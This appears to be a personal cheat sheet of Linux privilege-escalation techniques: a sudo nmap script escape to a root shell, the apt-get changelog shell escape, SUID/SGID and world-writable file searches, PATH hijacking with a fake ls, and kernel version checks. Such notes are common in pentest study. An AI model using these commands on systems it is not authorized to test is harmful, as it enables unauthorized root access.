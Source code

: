 ## Linux Privilege Escalation

### Switch User DO
	To find all the sudoers files, sudo cat /etc/sudoers
	!!anyone can write to the tmp file!!
	
	echo 'os.execute' ("/bin/bash") > /tmp/escape.nse
	chmod +x /tmp/escape.nse
	sudo nmap --script=/tmp/escape.nse
	
	https://gtfobins.github.io/gtfobins/
	
	sudo apt-get changelog apt
	!/bin/bash -> privilege escalation
	
### SUID / SGID
	If user has suid bit set, if runs with sudo privs, demo2 runs as if it was demo1, you can run it as the user, find them with root privileges
	
	find suid, searches for suid only
		find / -type f -perm /4000 -ls 2>/dev/null
	
	find sgid, searches for guid only
		find / -type f -perm /2000 -ls 2>/dev/null
		
	find either
		find / -type f -perm /6000 -ls 2>/dev/null
	
### Insecure Perms
	CRON
		is in different spots
		
	Word-Writeable Files and Directories
		find / -type f -perm /2 -o -type d -perm /2 2>/dev/null
		find / -type f -writable -o -type d -writable 2>/dev/null	
		
	Dot '.' in PATH
		echo $PATH
		if there is a ., "current dir", or if we can add the "." to the path, we can make own ls
		
		echo $PATH
		PATH=.:$PATH
		echo $PATH, there is a .
		
		vim ls
		#!/bin/bash
		whoami
		chmod +x ls
		
		ls -> runs whoami

### Unpatched kern vuleranbilities
	uname -a
	cat /proc/version
	dmesg | grep Linux
	
